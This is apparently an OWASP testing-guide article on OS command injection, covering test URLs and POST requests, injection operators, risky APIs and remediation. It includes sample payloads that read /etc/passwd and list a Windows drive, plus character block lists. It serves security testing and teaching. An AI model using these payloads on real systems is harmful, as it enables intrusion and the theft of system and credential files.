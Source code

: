 Summary
-------

This article describes how to test an application for OS command injection. The tester will try to inject an OS command through an HTTP request to the application.

OS command injection is a technique used via a web interface in order to execute OS commands on a web server. The user supplies operating system commands through a web interface in order to execute OS commands. Any web interface that is not properly sanitized is subject to this exploit. With the ability to execute OS commands, the user can upload malicious programs or even obtain passwords. OS command injection is preventable when security is emphasized during the design and development of applications.

How to Test
-----------

When viewing a file in a web application, the file name is often shown in the URL. Perl allows piping data from a process into an open statement. The user can simply append the Pipe symbol “|” onto the end of the file name.

Example URL before alteration:\

`http://sensitive/cgi-bin/userData.pl?doc=user1.txt`\

Example URL modified:\

`http://sensitive/cgi-bin/userData.pl?doc=/bin/ls|`\

This will execute the command “/bin/ls”.\

Appending a semicolon to the end of a URL for a .PHP page followed by an operating system command, will execute the command. %3B is url encoded and decodes to semicolon\
Example:\
http://sensitive/something.php?dir=%3Bcat%20/etc/passwd\

**Example**\
Consider the case of an application that contains a set of documents that you can browse from the Internet. If you fire up any HTTP proxy (e.g. OWASP ZAP), you can obtain a POST HTTP like the following:

    POST http://www.example.com/public/doc HTTP/1.1
    Host: www.example.com
    User-Agent: Mozilla/5.0 (Windows; U; Windows NT 5.1; it; rv:1.8.1) Gecko/20061010 FireFox/2.0
    Accept: text/xml,application/xml,application/xhtml+xml,text/html;q=0.9,text/plain;q=0.8,image/png,*/*;q=0.5
    Accept-Language: it-it,it;q=0.8,en-us;q=0.5,en;q=0.3
    Accept-Encoding: gzip,deflate
    Accept-Charset: ISO-8859-1,utf-8;q=0.7,*;q=0.7
    Keep-Alive: 300
    Proxy-Connection: keep-alive
    Referer: http://127.0.0.1/WebGoat/attack?Screen=20
    Cookie: JSESSIONID=295500AD2AAEEBEDC9DB86E34F24A0A5
    Authorization: Basic T2Vbc1Q9Z3V2Tc3e=
    Content-Type: application/x-www-form-urlencoded
    Content-length: 33

    Doc=Doc1.pdf

In this post request, we notice how the application retrieves the public documentation. Now we can test if it is possible to add an operating system command to inject in the POST HTTP. Try the following:

    POST http://www.example.com/public/doc HTTP/1.1
    Host: www.example.com
    User-Agent: Mozilla/5.0 (Windows; U; Windows NT 5.1; it; rv:1.8.1) Gecko/20061010 FireFox/2.0
    Accept: text/xml,application/xml,application/xhtml+xml,text/html;q=0.9,text/plain;q=0.8,image/png,*/*;q=0.5
    Accept-Language: it-it,it;q=0.8,en-us;q=0.5,en;q=0.3
    Accept-Encoding: gzip,deflate
    Accept-Charset: ISO-8859-1,utf-8;q=0.7,*;q=0.7
    Keep-Alive: 300
    Proxy-Connection: keep-alive
    Referer: http://127.0.0.1/WebGoat/attack?Screen=20
    Cookie: JSESSIONID=295500AD2AAEEBEDC9DB86E34F24A0A5
    Authorization: Basic T2Vbc1Q9Z3V2Tc3e=
    Content-Type: application/x-www-form-urlencoded
    Content-length: 33

    Doc=Doc1.pdf+|+Dir c:\

If the application doesn't validate the request, we can obtain the following result:

    Exec Results for 'cmd.exe /c type "C:\httpd\public\doc\"Doc=Doc1.pdf+|+Dir c:\'
    Output...
    Il volume nell'unità C non ha etichetta.
    Numero di serie Del volume: 8E3F-4B61
    Directory of c:\
     18/10/2006 00:27 2,675 Dir_Prog.txt
     18/10/2006 00:28 3,887 Dir_ProgFile.txt
     16/11/2006 10:43
        Doc
        11/11/2006 17:25
           Documents and Settings
           25/10/2006 03:11
              I386
              14/11/2006 18:51
             h4ck3r
             30/09/2005 21:40 25,934 
            OWASP1.JPG
            03/11/2006 18:29
                Prog
                18/11/2006 11:20
                    Program Files
                    16/11/2006 21:12
                        Software
                        24/10/2006 18:25
                            Setup
                            24/10/2006 23:37
                                Technologies
                                18/11/2006 11:14    
                                3 File 32,496 byte
                                13 Directory 6,921,269,248 byte disponibili
                                Return code: 0

In this case, we have successfully performed an OS injection attack.

Special Characters for Comand Injection
---------------------------------------

The following special character can be used for command injection such as | ; & \$ &gt; &lt; \` \\ !

-   cmd1|cmd2 : Uses of | will make command 2 to be executed weather command 1 execution is successful or not.

<!-- -->

-   cmd1;cmd2 : Uses of ; will make command 2 to be executed weather command 1 execution is successful or not.
-   cmd1||cmd2 : Command 2 will only be executed if command 1 execution fails.
-   cmd1&&cmd2 : Command 2 will only be executed if command 1 execution succeeds.
-   \$(cmd) : For example, echo \$(whoami) or \$(touch test.sh; echo 'ls' &gt; test.sh)
-   'cmd' : It's used to execute specific command. For example, 'whoami'
-   &gt;(cmd): &lt;(ls)
-   &lt;(cmd): &gt;(ls)

Code Review Dangerous API
-------------------------

Be aware of the uses of following API as it may introduce the command injeciton risks.

Java

-   Runtime.exec()

C/C++

-   system

<!-- -->

-   exec

<!-- -->

-   ShellExecute

Python

-   exec

<!-- -->

-   eval

<!-- -->

-   os.system
-   os.popen
-   subprocess.popen
-   subprocess.call

PHP

-   system
-   shell\_exec
-   exec
-   proc\_open
-   eval\

Remediation
-----------

### Sanitization

The URL and form data needs to be sanitized for invalid characters. A “blacklist” of characters is an option but it may be difficult to think of all of the characters to validate against. Also there may be some that were not discovered as of yet. A “white list” containing only allowable characters or command list should be created to validate the user input. Characters that were missed, as well as undiscovered threats, should be eliminated by this list.

Genereal blacklist to be included for commannd injection can be | ; & \$ &gt; &lt; ' \\ ! &gt;&gt; \#

Escape or filter special characters for windows,   ( ) &lt; &gt; & \* ‘ | = ? ; \[ \] \^ \~ ! . ” % @ / \\ : + , \`\
Escape or filter special characters for Linux, { }  ( ) &lt; &gt; & \* ‘ | = ? ; \[ \]  \$ – \# \~ ! . ” %  / \\ : + , \`

### Permissions

The web application and its components should be running under strict permissions that do not allow operating system command execution. Try to verify all these informations to test from a Gray Box point of view

Tools
-----

-   OWASP [WebGoat](OWASP_WebGoat_Project "wikilink")
-   [Commix](https://github.com/commixproject/commix)

References
----------

-   <http://www.securityfocus.com/infocus/1709>
-   <http://projects.webappsec.org/w/page/13246950/OS%20Commanding>
-   <https://cwe.mitre.org/data/definitions/78.html>
-   <https://www.securecoding.cert.org/confluence/pages/viewpage.action?pageId=2130132>

\

